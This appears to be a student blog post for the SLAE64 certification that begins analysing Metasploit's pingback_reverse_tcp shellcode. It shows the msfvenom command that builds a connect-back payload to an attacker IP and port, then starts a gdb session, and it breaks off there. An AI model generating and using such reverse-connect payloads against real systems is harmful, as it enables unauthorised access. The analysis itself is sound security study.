 Title: SLAE64 - Assignment 5.2
Date: 2022-06-25T09:03:11.000Z

<h2 id="disclaimer">Disclaimer</h2><p>This blog post has been created for completing the requirements of the SecurityTube Linux Assembly Expert Certification:</p><p><a href="https://www.pentesteracademy.com/course?id=7">https://www.pentesteracademy.com/course?id=7</a></p><p>Student ID: PA-30398</p><h2 id="analysis">Analysis</h2><p>For the fifth assignment, I decided to analyze the following shellcode samples:</p><table>
<thead>
<tr>
<th>Name</th>
<th>Description</th>
</tr>
</thead>
<tbody>
<tr>
<td>linux/x64/meterpreter/reverse_tcp</td>
<td>Inject the mettle server payload (staged). Connect back to the attacker</td>
</tr>
<tr>
<td>linux/x64/pingback_reverse_tcp</td>
<td>Connect back to attacker and report UUID (Linux x64)</td>
</tr>
<tr>
<td>linux/x64/shell_bind_ipv6_tcp</td>
<td>Listen for an IPv6 connection and spawn a command shell</td>
</tr>
</tbody>
</table>
<p>In this post, I'll document the logic of the second shellcode, <code>linux/x64/pingback_reverse_tcp</code>.</p><p>Let's start from the very beginning, i.e. generating the shellcode, which you can do by means of the <em>ruby</em> script <code>msfvenom</code> available by default on Kali Linux distributions.</p><p>Follows the command I used in order to generate the shellcode for this assignment:</p><pre><code class="language-bash">msfvenom -p linux/x64/pingback_reverse_tcp LHOST=192.168.1.170 LPORT=443 -f elf -o shellcode        
# [-] WARNING: UUID cannot be saved because database is inactive.
# [-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
# [-] No arch selected, selecting arch: x64 from the payload
# No encoder specified, outputting raw payload
# Payload size: 125 bytes
# Final size of elf file: 245 bytes
# Saved as: shellcode
</code></pre><p>Next, we can start the analysis using <code>gdb</code>:</p><pre><code class="language-bash">gdb -q ./shellcode
# Reading symbols from ./shellcode...
# (No debugging symbols found in ./shellcode)
(gdb) starti